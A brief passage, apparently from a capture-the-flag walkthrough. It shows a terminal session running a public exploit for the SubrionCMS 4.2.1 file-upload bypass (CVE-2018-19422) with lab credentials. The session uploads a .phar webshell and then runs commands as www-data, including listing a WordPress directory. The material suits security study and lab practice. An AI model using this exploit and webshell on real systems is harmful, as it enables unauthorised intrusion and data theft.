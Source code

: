 
<p>or</p>
```bash
:~/Tech_Supp0rt# python3 49876.py -u http://TargetIP/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://TargetIP/subrion/panel/
[+] Success!
[+] Got CSRF token: HIMTaUtulYl0qOMikPtcvPwcSvuueF6ttWLSi431
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: vzynkwgectzsbrg

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://TargetIP/subrion/panel/uploads/vzynkwgectzsbrg.phar 

$ whoami
www-data

$ pwd
/var/www/html/subrion/uploads

$ ls
rrvguuifmwiowpl.phar
vzynkwgectzsbrg.phar

...

$ ls /var/www/html
index.html
phpinfo.php
subrion
test
wordpress

$ ls /var/www/html/wordpress
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```
